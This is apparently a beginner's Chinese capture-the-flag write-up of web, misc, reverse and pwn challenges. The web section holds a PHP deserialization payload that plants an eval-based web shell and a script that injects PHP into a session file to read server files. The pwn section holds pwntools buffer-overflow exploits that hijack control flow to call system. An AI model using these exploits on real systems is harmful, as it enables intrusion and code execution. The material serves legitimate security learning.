zoe

运气选手，第一次玩，面向Google编程。

（我好像能拿奖品？）

## test your F12



just f12

## 西北工业大学成绩管理系统



f12看发的包，is_admin 改成 ture 用postman发

## 西北工业大学GET AND POST 系统

get a=1 and post b=2

按这个讲的来发



我就只会用postman

## luck draw

cookie给block了，狂抽



## lottery

```json
{"action":"buy","numbers":[true,true,true,true,true,true,true]}
```

PHP 弱类型松散比较，以`"1"`为例，和`TRUE`,`1`,`"1"`相等。

发的Header里带上sessionid

中几次头奖，钱够了买flag

## 西北工业大学报时台

看代码藏了个链接 ./time.php?source

看php代码，用data=里面的东西的反序列化怎么搞

```http://47.93.116.52:20001/time.php?data=O:8:%22HelloPhp%22:2:{s:1:%22a%22;s:19:%22eval($_POST[%22aaa%22])%22;s:1:%22b%22;s:6:%22assert%22;}```



用这个连到shell



## 西北工业大学留言板

```python
import requests

session = requests.session()

url = "http://47.93.116.52:20002/msg.php"
cookies = {"session": "6ae17247-53f3-4ac4-b419-fb63814ecc28.Ty_3FbzG99sbFHyITrswaOuq1ek", "PHPSESSID": "hd36m74o0s6g5ce7fhv8lcef85"}
headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "http://ha1cyon-ctf.fun:30135/index.bak.php?action=message.php", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "X-Requested-With": "XMLHttpRequest", "Connection": "close"}

data = {"msg": "<?PhP \n#"}  # data = {"msg": "<?PhP /*"}
session.post(url, headers=headers, cookies=cookies, data=data)

data = {"msg": "\n$a=$_GET;#"}  # data = {"msg": "*/$a=$_GET;/*"}
session.post(url, headers=headers, cookies=cookies, data=data)

data = {"msg": "\neval($a[1]);#"}  # data = {"msg": "*/eval($a[1]);/*"}
session.post(url, headers=headers, cookies=cookies, data=data)

data = {"msg": "\n ?>"}  # data = {"msg": "*/ ?>"}
session.post(url, headers=headers, cookies=cookies, data=data)

url = "http://47.93.116.52:20002/index.bak.php?action=/tmp/sess_hd36m74o0s6g5ce7fhv8lcef85&1=print_r(scandir('/'));print_r(file_get_contents('/FIag_!S_it'));"
r=session.get(url, headers=headers, cookies=cookies)
print(r.text)
```

## 签到题

签到

## restore

看图片的16进制

47 0D 0A 1A

搜一下看到是png的开头 89 50 4E 47 0D 0A 1A 0A

给前几个补上



base64

## unencrypted zip

啥玩意？打开就是了



## rabbit

图片藏了一帧



rabbit解出来

## easycube

flag在网页代码里

视频 https://www.youtube.com/watch?v=9CDyU48wcE4

备用 

``` 链接:https://pan.baidu.com/s/12-aYtipvspVaiQRbbiOuXA 提取码:s1ef```

## 拼图

我真的很闲



## PlayChineseChess

真人快打

 ## easy unpack

google一下，都说是UPX加壳

```upx -d xxx```

好像就是这么脱壳，然后放到IDA里看



看到这玩意附近的16进制值



## test your nc

```nc 47.93.116.52 20204```

## pwnapwna

 ida打开



buf长70，读了100，溢出了



想办法调用这个，位置在0x401152

用gdb看一下要输入的字节数（我已经忘了怎么看了，我现学的）

```python
from pwn import *

p = remote('47.93.116.52',20205)
ret_addr= 0x401152

payload=b'a'*120 + p64(ret_addr)

p.sendline(payload)
print(payload.decode("utf-8"))
p.interactive()

```

## hello32

ida打开



又是输入读多了



看到能调system函数，字符串有 cat flag

```python
from pwn import*
#r = process('./run')
r = remote('47.93.116.52',20202)

elf = ELF('./run')
sys = elf.symbols['system']


payload = b'a'*0x88 + b'b'*4  + p32(sys) + p32(0x12341234) +  p32(elf.search(b'cat flag').__next__())

r.send(payload)

r.interactive()

```

## hello64

64位程序传的参数放的地方好像不一样

用gdb找到哪个寄存器（？）啥的地址0x40127b，写传给system函数的参数的地址0x402029

网上找的，对着32位改就完了

```python
from pwn import *

p = process('./run64')

p = remote('47.93.116.52',20203)

elf = ELF('./run64')
sys = elf.symbols['system']

arg_addr = 0x402029
pop_rdi = 0x40127b

payload = b'A' * 136 + p64(pop_rdi) + p64(arg_addr) + p64(sys)

p.sendline(payload)
p.interactive()

```

